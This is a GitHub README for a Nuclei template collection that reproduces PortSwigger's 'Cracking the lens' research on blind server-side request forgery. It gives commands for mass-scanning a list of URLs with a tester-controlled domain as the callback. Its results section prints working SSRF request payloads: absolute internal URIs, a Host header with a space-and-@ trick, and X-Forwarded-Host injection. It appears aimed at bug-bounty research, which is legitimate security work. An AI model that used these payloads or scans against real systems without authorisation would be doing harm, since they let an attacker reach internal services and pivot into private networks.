






<h4 align="center">Nuclei Templates to reproduce Cracking the lens's Research</h4>


<p align="center">
<a href="https://twitter.com/0xAwali"></a>
</p>


<h1 align="center">Requirements</h1>

<h4 align="center">1 - Read and Watch !</h4>
<p align="center">
  <a href="https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface">Cracking the lens's Research</a>
</p>
<p align="center">
<a href="https://twitter.com/albinowax"></a>
</p>


<h4 align="center">2 - Install Nuclei</h4>
<p align="center">
  <a href="https://github.com/projectdiscovery/nuclei">Nuclei</a>
</p>
<p align="center">
<a href="https://twitter.com/pdnuclei"></a>
</p>

<h4 align="center">3 - Clone this Repository</h4>
<p align="center">
  <a href="https://github.com/0xAwali/Blind-SSRF">Blind SSRF</a>
</p>


<h1 align="center">Usage</h1>


```sh
sed -i -- 's/- "Your Match"/- "Match Response of Your Domain e.g. <title>Title My Server 0xAwali<\/title>"/' *.yaml
```


```sh
nuclei -c 300 -list url.txt -bulk-size 50 -retries 3 -timeout 20 -t "/Templates/*.yaml" -var "MY-DOMAIN=domain.com"
```


<h1 align="center">Keep in Your Mind</h1>
<h4 align="center">don't use {{interactsh-url}} because I noticed a lot of Interaction will take time to happen so You will miss a lot</h4>


<h1 align="center">Next Step !</h1>
<h4 align="center">if nuclei matched something , now You have completely SSRF</h4>
<h4 align="center">if nuclei didn't match anything but there is HTTP Interaction happen , now maybe You have Blind SSRF</h4>
<h4 align="center">so try to invest some time and use this blog as reference</h4>

<h4 align="center">
  
</h4>


<h4 align="center">
  <a href="https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/">A Glossary of Blind SSRF Chains</a>
</h4>
<p align="center">
<a href="https://twitter.com/assetnote"></a>
</p>


<h1 align="center">Results</h1>
<h3 align="center">1 - Completely SSRF</h3>


```sh
GET http://internal-domains.company.com/ HTTP/1.1
Host: company.com
Cache-Control: no-transform
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept-Encoding: gzip, deflate
Accept: */*
```


<h3 align="center">
  </a>
</h3>

<h3 align="center">
  </a>
</h3>

<h3 align="center">
  </a>
</h3>

<h3 align="center">
  </a>
</h3>


```sh
GET http://internal-domains.company.com/ HTTP/1.0
Cache-Control: no-transform
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept-Encoding: gzip, deflate
Accept: */*
```


<h3 align="center">2 - Blind SSRF but there isn't luck to hit internal services</h3>


```sh
GET / HTTP/1.1
Host: company.com @MY-Domain #did you notice that there is a space between company.com and @
Cache-Control: no-transform
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept-Encoding: gzip, deflate
Accept: */*
```

<h3 align="center">
  </a>
</h3>

<h3 align="center">
  </a>
</h3>


```sh
GET / HTTP/1.1
Host: company.com
X-Forwarded-Host: MY-Domain/.company.com
Cache-Control: no-transform
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept-Encoding: gzip, deflate
Accept: */*
```
